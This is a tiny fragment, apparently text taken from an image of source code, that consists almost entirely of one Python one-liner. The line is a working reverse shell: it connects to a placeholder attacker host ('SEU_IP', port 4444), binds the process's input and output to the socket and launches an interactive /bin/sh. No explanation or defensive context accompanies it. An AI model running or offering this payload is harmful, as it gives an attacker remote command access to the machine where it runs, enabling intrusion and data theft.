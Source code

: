 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
